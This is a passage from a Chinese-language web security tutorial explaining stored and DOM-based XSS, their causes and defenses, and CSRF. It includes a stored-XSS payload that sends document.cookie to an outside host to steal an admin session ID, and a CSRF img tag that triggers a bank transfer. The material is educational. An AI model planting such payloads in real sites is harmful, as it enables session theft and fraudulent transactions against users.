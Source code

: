 **持久型攻击**

持久型攻击会把攻击者的数据存储在服务器端，攻击行为将伴随着攻击数据一直存在。

例子：

首先，攻击者以一个普通用户登录进来，然后在输入框中提交以下数据：

```html
<a href=# onclick=\"document.location='http://www.bixingqiu.net/index.php?c=' +escape(document.cookie);\">attack</a>
```

攻击者提交了条带`<a>`标签的数据，该条数据将保存在数据库中，而当 admin 用户登录时，包含“attack”的用户列表将显示，如果 admin 用户点击 “attack” 时，在`www.bixingqiu.net`
所在的服务器上，攻击者就可以窃取到 admin 的sessionId：

`index.php?c=PHPSESSID=vmcsjsgear6gsogpu7o2imr9f3`

有了该sessionId，攻击者在会话有效期内即可获得 admin 用户的权限，并且由于攻击数据已添加到数据库，只要攻击数据未被删除，那么攻击还有可能生效，是持久性的。

**基于DOM的XSS**

基于 DOM 的跨站脚本与前面两种类型有什么区别呢？其实它注入的方式是基于前面两种类型的方式的，只不过是注入的脚本是通过改变DOM 来实施的。采用该种方式有一个好处就是从源代码中不易被发现而已。

**产生的原因**

主要原因和SQL注入很类似，都是由于开发人员没有对用户输入进行过滤和转义，另一个原因是，这种攻击方法有很多变体，要设计出一个完全防御的XSS过滤器是非常困难的。

**如何防护**

- 使用白名单、黑名单的方式进行过滤

- 对HTML标签和一些特殊符号进行转义

### CSRF（Cross-Site Request Forgery，跨站请求伪造）

CSRF，是一种对网站的恶意利用，听起来像XSS，但它和XSS非常不同。XSS利用站点内的信任用户，而CSRF通过伪装来自信任用户的请求来利用受信任的网站。与XSS相比，CSRF往往不大流行和难以防范，所以被认为比XSS更具危险性。

**攻击原理**

![img](https://raw.githubusercontent.com/shershon1991/picImgBed/master/topic/security/wpsuFYCIe.jpg)

1. 首先用户 A 请求登录了服务器 B，这时服务器 B 响应了用户 A，并且会返回唯一标识 的该用户的 cookie 信息。

2. 用户 A 在未退出服务器 B 时（即仍与服务器 B 保持会话状态），访问了带有恶意脚本的服务器 C，服务器 C 响应给用户 A 一个恶意页面，并且通过恶意脚本伪装用户 A 向服务器 B 发送请求，此时服务器 B 误以为是用户 A
   请求，故响应并返回了用户 A 的 cookie 信息。

3. 服务器 C 收到用户 A 与 服务器 B 的cookie 信息后，保存起来，并利用该信息伪装成用户 A 去访问服务器 B，再进行相应的破坏（想干嘛就干嘛）

**举例**

银行网站A，它以GET请求来完成银行转账的操作，如：

`http://www.mybank.com/Transfer.php?toBankId=11&money=1000`

危险网站B，它里面有一段HTML的代码如下：

`<img src='http://www.mybank.com/Transfer.php?toBankId=11&money=1000'>`
